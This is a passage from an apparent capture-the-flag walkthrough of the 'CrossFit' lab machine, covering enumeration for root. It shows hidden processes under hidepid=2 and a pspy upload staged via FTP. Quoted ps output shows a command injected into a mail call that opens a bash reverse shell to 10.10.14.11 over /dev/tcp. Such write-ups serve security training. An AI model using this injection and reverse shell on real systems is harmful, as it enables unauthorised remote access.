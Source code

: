 

## Shell as root

### Enumeration

One thing I actually noticed in my first shell was that running
`ps auxww` only returned processes for the `www-data` user. The same has
been true for each other user so far, including isaac:



    isaac@crossfit:~/send_updates/includes$ ps auxww
    USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    isaac     8383  0.0  0.0   2388   756 ?        Ss   17:26   0:00 /bin/sh -c /usr/bin/php /home/isaac/send_updates/send_updates.php
    isaac     8385  0.3  0.5  89096 22796 ?        S    17:26   0:00 /usr/bin/php /home/isaac/send_updates/send_updates.php
    isaac     8415  0.0  0.0   2388   760 ?        S    17:26   0:00 sh -c /usr/bin/mail -s 'CrossFit Club Newsletter' --wrong || bash -c "bash -i &> /dev/tcp/10.10.14.11/443 0>&1" '1'
    isaac     8417  0.0  0.0   6644  3168 ?        S    17:26   0:00 bash -c bash -i &> /dev/tcp/10.10.14.11/443 0>&1 1
    isaac     8418  0.0  0.1   7900  4596 ?        S    17:26   0:00 bash -i
    isaac     8684  0.0  0.2  16856  8608 ?        S    17:27   0:00 python3 -c import pty;pty.spawn("bash")
    isaac     8685  0.0  0.1   8344  5148 pts/3    Ss   17:27   0:00 bash
    isaac     8967  0.0  0.0  10632  3108 pts/3    R+   17:29   0:00 ps auxww



This happens when `/proc` is mounted using the `hidepid=2` options:



    isaac@crossfit:~/send_updates/includes$ mount
    sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
    proc on /proc type proc (rw,nosuid,nodev,noexec,relatime,hidepid=2)
    ...[snip]...



After significant enumeration without finding much to look at, I ran
[pspy](https://github.com/DominicBreuker/pspy). I uploaded it over FTP:



    lftp ftpadm@ftp.crossfit.htb:/messages> put /opt/pspy/pspy64
    3078592 bytes transferred  



isaac can reach that directory to get it out and move it elsewhere
before it gets deleted:



    isaac@crossfit:/srv/ftp/messages$ mv pspy64 /dev/shm
    isaac@crossfit:/srv/ftp/messages$ cd /dev/shm
    isaac@crossfit:/dev/shm$ chmod +x pspy64 

